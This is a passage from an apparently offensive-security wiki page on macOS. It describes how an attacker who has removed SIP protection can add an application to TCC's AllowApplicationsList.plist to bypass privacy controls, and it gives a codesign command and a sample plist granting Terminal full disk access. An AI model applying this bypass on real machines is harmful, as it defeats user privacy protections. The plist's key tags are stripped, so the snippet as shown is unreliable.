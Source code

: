 However, there is another option to abuse this **SIP bypass to bypass TCC**, the file `/Library/Apple/Library/Bundles/TCC_Compatibility.bundle/Contents/Resources/AllowApplicationsList.plist` is an allow list of applications that require a TCC exception. Therefore, if an attacker can **remove the SIP protection** from this file and add his **own application** the application will be able to bypass TCC.\
For example to add terminal:

```bash
# Get needed info
codesign -d -r- /System/Applications/Utilities/Terminal.app
```

AllowApplicationsList.plist:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	Services

	<dict>
		SystemPolicyAllFiles

		<array>
			<dict>
				CodeRequirement

				identifier "com.apple.Terminal" and anchor apple

				IdentifierType

				bundleID

				Identifier

				com.apple.Terminal

			</dict>
		</array>
	</dict>
</dict>
</plist>
```

### TCC Bypasses

[[macos-tcc-bypasses/]]

## References

- [**https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive**](https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive)
- [**https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command**](https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command)
- [**https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/**](https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/)
- [**https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/**](https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/)

